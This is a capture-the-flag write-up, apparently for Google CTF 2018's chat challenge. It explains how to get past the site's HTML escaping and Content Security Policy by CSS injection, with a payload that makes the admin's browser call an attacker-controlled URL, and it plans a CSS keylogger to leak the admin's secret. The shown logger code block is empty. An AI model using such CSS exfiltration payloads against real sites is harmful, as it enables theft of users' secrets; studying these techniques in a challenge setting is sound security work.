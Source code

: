 By the way, `/report` will only ban users while admin is speaking.(the time after `admin: Hi` is printed). I stuck at this question because I was confused by this mechanism...

But unfortunately, this site sanitizes all HTML tag. We need to find other payloads:
`let esc = (str) => str.replace(/</g, '&lt;').replace(/>/g, '&gt;').replace(/"/g, '&quot;').replace(/'/g, '&apos;');`

Even we can bypass it, we need to face to Content Security Policy:
```
default-src self
style-src unsafe-inline self
script-src self https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/
frame-src self https://www.google.com/recaptcha/
```

However, there is a CSS injection here:
```
span[data-secret]:hover:after {
  content: " (" attr(data-secret) ")";
}
```

If we inject `inject]{background:url("http://example.com")}`, the client will access a domain we controlled. However, JavaScript doesn't work here because of CSP. We cannot directly bring out `document.cookie`. We need to create something like CSS key logger to exploit it.

How can we leak the flag? When you move your mouse to `******` after setting new password(by `/secret your_password`), your password will be shown:
![CAT3](/assets/Google-CTF-2018/cat3.png)

To successfully exploit it with our key-logger: every time we ask admin to use `/secret` to show the *flag*. The password will be changed. Can we triggered it without modifying the *flag*. Now, let's introduce another feature of cookie.

When you try to declare `Domain=example.com` in cookie, the value of `Domain` must equal to the website's domain. e.g. `Set-Cookie: flag=1234; Domain=evil.com` will fail in `example.com`. As a result, our cookie remains the same even if we request `/secret`.

Therefore, we can add a URL to make admin request to `/secret`. When the password echoes in admin's screen, our key logger will record it and send to our sever.

Now we need to do following step:
- Change user A's name to CSS key logger
- Let A speak something about dog
- User B report A
- Admin occurs and its cookie is logged.

The following is our logger:
```css
```